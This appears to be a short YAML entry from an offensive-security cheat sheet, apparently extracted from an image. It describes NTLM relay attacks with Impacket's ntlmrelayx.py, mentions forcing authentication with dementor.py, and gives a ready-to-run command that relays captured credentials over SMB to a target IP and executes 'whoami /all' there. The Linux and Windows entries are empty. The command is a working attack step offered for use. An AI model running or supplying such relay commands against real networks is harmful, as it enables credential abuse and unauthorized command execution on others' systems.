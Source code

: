 ```yaml
---
description: |
  Impacket's ntlmrelayx.py performs NTLM Relay Attacks, creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

  The below command creates an SMB relay server that targets the IP 10.10.10.1, meaning any credentials that the SMB server recieves, gets relayed to that IP to attempt to authenticate and execute 'whoami /all'. In order for the SMB server to recieve credentials to relay, dementor.py can be used to trigger a forced authentication from the IP it's targeting to an attacker controlled SMB server.

  Command Reference:

  	Target IP: 10.10.10.1

items:
  No_Creds:
    - code: |
        python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug
  Linux:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

